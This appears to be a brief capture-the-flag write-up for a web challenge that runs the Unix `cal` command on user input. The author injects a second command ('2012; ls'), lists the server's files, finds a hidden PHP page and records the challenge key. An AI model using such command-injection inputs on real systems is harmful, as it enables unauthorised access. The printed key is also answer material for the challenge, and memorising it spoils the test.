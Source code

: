 first read the man page for `cal`.

Saw nothing interesting. Put in nothing and also a few years to see calendars.

Realized this was simply executing our parameters, so we escaped the command and executed our own by passing

`2012; ls`

This returned the following after the calendar

```
.
..
cal.pl
index.php
k1kh31b1n55h.php
level7.php
```

Where `k1kh31b1n55h.php` is important, we visited the URL

and got the key = 899643ac
